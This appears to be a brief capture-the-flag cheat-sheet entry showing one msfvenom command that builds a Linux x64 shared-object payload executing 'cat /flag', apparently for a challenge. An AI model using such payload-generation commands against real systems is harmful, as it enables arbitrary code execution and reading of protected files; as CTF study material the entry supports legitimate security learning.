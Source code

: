 # msfvenom

generate a payload

- `msfvenom -p linux/x64/exec CMD="cat /flag" -f elf-so -o shell.so`
